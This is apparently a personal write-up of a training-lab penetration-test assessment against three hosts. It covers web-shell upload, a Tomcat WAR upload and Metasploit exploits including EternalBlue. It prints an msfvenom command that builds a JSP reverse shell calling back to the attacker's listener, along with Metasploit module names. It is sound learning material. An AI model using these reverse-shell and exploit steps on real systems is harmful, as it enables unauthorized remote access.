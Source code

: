 # Skill Assessment

{% hint style="info" %}
TL;DR:

With this skill assessment, I had a very bad time using my own attacking machine not their pwnbox. Everything worked fine with the pwnbox but the latency...

We are given a foothold already on the internal network, so it's gonna be an internal pentest on their web apps.&#x20;

First windows host has 2 file upload vulnerabilities, one with a war file that we must create our own payload with msfvenom and the other was a simple web shell injection.

Second one was running Linux and had a CVE which we exploited with metasploit.

Third one was a low hanging fruit: EternalBlue.
{% endhint %}

## HOST 1

<figure><img src="../../.gitbook/assets/image (33).png" alt=""><figcaption><p>Internal network</p></figcaption></figure>

Checking the status.inalenfreight.local on port 80 we find this website :

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

Obviously, we have a file upload field in there. But before checking this website I also checked status.inlanefreight.local on port 8080 and found another web portal for configuring apps on an Apache server.&#x20;

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption><p>Apache Tomcat config portal</p></figcaption></figure>

Okay now we'll stick with the first one and just go with the Antak web shell since it's a windows target, so we make a copy of it on a directory of our choice and then modify the username and passsword.

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

Upon successful upload here are some ways of getting the hostname and share name:

```powershell
PS> hostname
PS> [System.Net.Dns]::GetHostName()
PS> (Get-WmiObject -Class Win32_ComputerSystem).Name
```

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

Now lets try to find another way to access the target machine since we have the tomcat portal and tomcat access creds on our desktop:

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

At this point I tested metasploit with the following commands :&#x20;

```bash
msfconsole> search exploit tomcat -os:windows
msfconsole> use multi/http/tomcat_mgr_upload # Didn't work
msfconsole> use multi/http/tomcat_mgr_deploy # Didn't work
```

With both failed and looking a bit on google, i found out that this can't get us a webshell but a reverse shell, we need a war file specific for a windows target hosting the tomcat version, <mark style="color:green;">so we gotta craft our own payload using msfvenom.</mark>

```bash
$msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=9443 -f war > shell.war
```

After setting up a listener and uploading, deploying the war file, we got a succesful hit back:

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

## HOST 2

The second host which hosts a blog is self explanatory already giving us intel about a CVE and even an exploit ready for use on the foothold machine even login creds as an admin: Free Win

So after a bit of research i found out that the goal behind this thing is importing exploitdb exploits into metasploit because this exploit isn't loaded yet.

I run into this blog which explained it well:

{% embed url="https://fosonecy.home.blog/2019/11/04/how-to-importing-exploit-db-exploits-into-metasploit-in-kali-linux-the-easy-way/" %}

{% hint style="warning" %}
After poking around a little bit i found out that the module is already loaded in metasploit lol so no need to load it again, but you know that was a good practice either ways.
{% endhint %}

So, after configuring the VHOST, RHOST, RPORT, USERNAME and USERPASSWORD fields on metasploit exploit options we get our beloved shell on the target host:

<figure><img src="../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

## HOST 3

{% hint style="danger" %}
For this host i made a huge mistake of not sticking with the subnet they provided before the questions, instead of scanning 172.16.1.13 i went for lab.inlanefreight.local which was in the /etc/hosts. Definitely a rabbit hole.
{% endhint %}

Here are the nmap results:



<figure><img src="../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

As mentioned in [here](https://learn.microsoft.com/en-us/security-updates/SecurityBulletins/2017/ms17-010), when we see Windows Server 2016, 2008..etc we should think of the one and only EternalBlue. Which is confirmed in the nmap scan :&#x20;

<figure><img src="../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

So not much thought in here, metasploit is the way to go, and as simple as we did on the Exploiting Windows part, we easily get a Shell on the final target host!

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

